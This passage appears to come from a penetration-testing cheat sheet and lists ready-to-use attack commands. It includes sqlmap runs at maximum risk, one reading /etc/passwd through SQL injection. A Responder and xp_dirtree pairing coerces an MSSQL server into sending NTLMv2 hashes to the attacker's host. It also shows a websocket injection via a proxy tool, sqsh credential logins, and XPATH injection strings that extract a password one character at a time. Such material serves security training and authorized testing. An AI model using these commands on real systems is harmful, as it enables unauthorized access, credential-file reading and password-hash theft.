 ```c
$ sqlmap -R <REQUEST> --level 5 --risk 3 --file-read=/etc/passwd --batch
```

### Search for Email

```c
$ sqlmap -r <REQUEST>.reg -p email --level 4 --risk 3 --batch
```

### Grabbing NTLMv2 Hashes with sqlmap and Responder

```c
$ sudo python3 Responder.py -I <INTERFACE>
$ sqlmap -r login.req --sql-query="exec master.dbo.xp_dirtree '\\\\<LHOST>\\share'"
```

## sqlmap Websocket Proxy

> https://github.com/BKreisel/sqlmap-websocket-proxy

```c
$ sqlmap-websocket-proxy -u 'ws://ws.<RHOST>:5789/version' -p '{"version": "2\u0022 %param%"}' --json
```

```c
$ sqlmap -u 'http://localhost:8080/?param1=1'
```

## sqsh

```c
$ sqsh -S <RHOST> -U <USERNAME>
$ sqsh -S '<RHOST>' -U '<USERNAME>' -P '<PASSWORD>'
$ sqsh -S '<RHOST>' -U '.\<USERNAME>' -P '<PASSWORD>'
```

### List Files and Folders with xp_dirtree

```c
1> EXEC master.sys.xp_dirtree N'C:\inetpub\wwwroot\',1,1;
```

## XPATH Injection

```c
test' or 1=1 or 'a'='a
test' or 1=2 or 'a'='a
'or substring(Password,1,1)='p' or'    // checking letter "p" on the beginning of the password
'or substring(Password,2,1)='p' or'    // checking letter "p" on the second position of the password
```
